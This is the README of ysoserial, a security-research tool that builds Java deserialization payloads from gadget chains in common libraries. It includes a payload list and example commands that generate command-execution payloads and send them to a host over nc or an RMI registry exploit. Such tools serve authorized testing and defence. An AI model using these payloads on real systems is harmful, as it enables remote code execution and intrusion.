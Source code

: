 # ysoserial

[![GitHub release](https://img.shields.io/github/downloads/antifob/ysoserial/latest/total)](https://github.com/antifob/ysoserial/releases/latest/download/ysoserial-all.jar)
![Build status](https://github.com/antifob/ysoserial/actions/workflows/publish.yml/badge.svg)

A proof-of-concept tool for generating payloads that exploit unsafe Java object deserialization.

![logo](ysoserial.png)

## Description

Originally released as part of AppSecCali 2015 Talk
["Marshalling Pickles: how deserializing objects will ruin your day"](
        https://frohoff.github.io/appseccali-marshalling-pickles/)
with gadget chains for Apache Commons Collections (3.x and 4.x), Spring Beans/Core (4.x), and Groovy (2.3.x).
Later updated to include additional gadget chains for
[JRE <= 1.7u21](https://gist.github.com/frohoff/24af7913611f8406eaf3) and several other libraries.

__ysoserial__ is a collection of utilities and property-oriented programming "gadget chains" discovered in common java
libraries that can, under the right conditions, exploit Java applications performing __unsafe deserialization__ of
objects. The main driver program takes a user-specified command and wraps it in the user-specified gadget chain, then
serializes these objects to stdout. When an application with the required gadgets on the classpath unsafely deserializes
this data, the chain will automatically be invoked and cause the command to be executed on the application host.

It should be noted that the vulnerability lies in the application performing unsafe deserialization and NOT in having
gadgets on the classpath.

## Disclaimer

This software has been created purely for the purposes of academic research and
for the development of effective defensive techniques, and is not intended to be
used to attack systems except where explicitly authorized. Project maintainers
are not responsible or liable for misuse of the software. Use responsibly.

## Usage

```shell
$ java -jar ysoserial-all.jar
Y SO SERIAL?
usage: ysoserial payload [arg...]
  Payload             Authors                                Dependencies
  -------             -------                                ------------
  AspectJWeaver       @Jang                                  aspectjweaver:1.9.2, commons-collections:3.2.2
  BeanShell1          @pwntester, @cschneider4711            bsh:2.0b5
  C3P0                @mbechler                              c3p0:0.9.5.2, mchange-commons-java:0.2.11
  Click1              @artsploit                             click-nodeps:2.3.0, javax.servlet-api:3.1.0
  Clojure             @JackOfMostTrades                      clojure:1.8.0
  CommonsBeanutils1   @frohoff                               commons-beanutils:1.9.2, commons-collections:3.1, commons-logging:1.2
  CommonsCollections1 @frohoff                               commons-collections:3.1
  CommonsCollections2 @frohoff                               commons-collections4:4.0
  CommonsCollections3 @frohoff                               commons-collections:3.1
  CommonsCollections4 @frohoff                               commons-collections4:4.0
  CommonsCollections5 @matthias_kaiser, @jasinner            commons-collections:3.1
  CommonsCollections6 @matthias_kaiser                       commons-collections:3.1
  CommonsCollections7 @scristalli, @hanyrax, @EdoardoVignati commons-collections:3.1
  FileUpload1         @mbechler                              commons-fileupload:1.3.1, commons-io:2.4
  Groovy1             @frohoff                               groovy:2.3.9
  Hibernate1          @mbechler
  Hibernate2          @mbechler
  JBossInterceptors1  @matthias_kaiser                       javassist:3.12.1.GA, jboss-interceptor-core:2.0.0.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21
  JRMPClient          @mbechler
  JRMPListener        @mbechler
  JSON1               @mbechler                              json-lib:jar:jdk15:2.4, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2, commons-lang:2.6, ezmorph:1.0.6, commons-beanutils:1.9.2, spring-core:4.1.4.RELEASE, commons-collections:3.1
  JavassistWeld1      @matthias_kaiser                       javassist:3.12.1.GA, weld-core:1.1.33.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21
  Jdk7u21             @frohoff
  Jython1             @pwntester, @cschneider4711            jython-standalone:2.5.2
  MozillaRhino1       @matthias_kaiser                       js:1.7R2
  MozillaRhino2       @_tint0                                js:1.7R2
  Myfaces1            @mbechler
  Myfaces2            @mbechler
  ROME                @mbechler                              rome:1.0
  Spring1             @frohoff                               spring-core:4.1.4.RELEASE, spring-beans:4.1.4.RELEASE
  Spring2             @mbechler                              spring-core:4.1.4.RELEASE, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2
  URLDNS              @gebl
  Vaadin1             @kai_ullrich                           vaadin-server:7.7.14, vaadin-shared:7.7.14
  Wicket1             @jacob-baines                          wicket-util:6.23.0, slf4j-api:1.6.4
```

## Examples

```shell
$ java -jar ysoserial-all.jar CommonsCollections1 calc.exe | xxd
0000000: aced 0005 7372 0032 7375 6e2e 7265 666c  ....sr.2sun.refl
0000010: 6563 742e 616e 6e6f 7461 7469 6f6e 2e41  ect.annotation.A
0000020: 6e6e 6f74 6174 696f 6e49 6e76 6f63 6174  nnotationInvocat
...
0000550: 7672 0012 6a61 7661 2e6c 616e 672e 4f76  vr..java.lang.Ov
0000560: 6572 7269 6465 0000 0000 0000 0000 0000  erride..........
0000570: 0078 7071 007e 003a                      .xpq.~.:

$ java -jar ysoserial-all.jar Groovy1 calc.exe > groovypayload.bin
$ nc 10.10.10.10 1099 < groovypayload.bin

$ java -cp ysoserial-all.jar ysoserial.exploit.RMIRegistryExploit myhost 1099 CommonsCollections1 calc.exe
```

## Installation

[![GitHub release](https://img.shields.io/github/downloads/antifob/ysoserial/latest/total)](https://github.com/antifob/ysoserial/releases/latest/download/ysoserial-all.jar)

Download the [latest release jar](https://github.com/antifob/ysoserial/releases/latest/download/ysoserial-all.jar) from GitHub releases.

## Building

Requires Java 1.7+ and Maven 3.x+

```mvn clean package -DskipTests```

## Code Status

![Build status](https://github.com/antifob/ysoserial/actions/workflows/publish.yml/badge.svg)

## Contributing

1. Fork it
2. Create your feature branch (`git checkout -b my-new-feature`)
3. Commit your changes (`git commit -am 'Add some feature'`)
4. Push to the branch (`git push origin my-new-feature`)
5. Create new Pull Request

## See Also
* [Java-Deserialization-Cheat-Sheet](https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet): info on vulnerabilities, tools, blogs/write-ups, etc.
* [marshalsec](https://github.com/frohoff/marshalsec): similar project for various Java deserialization formats/libraries
* [ysoserial.net](https://github.com/pwntester/ysoserial.net): similar project for .NET deserialization
